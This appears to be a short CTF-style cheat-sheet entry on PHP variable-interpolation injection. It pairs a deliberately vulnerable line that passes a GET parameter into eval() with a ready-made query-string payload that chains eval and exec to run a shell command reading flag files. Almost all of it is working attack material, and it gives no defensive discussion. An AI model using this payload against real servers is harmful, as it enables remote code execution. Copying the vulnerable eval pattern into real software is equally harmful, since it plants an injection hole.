 # PHP

## Variable interpolation
```php
# Vulnerable code
eval('echo "' . $_GET['arg'] . '";');

# Exploit
?arg=${eval($_REQUEST[1337])}&1337=die(exec("cat%20/flag*"));
```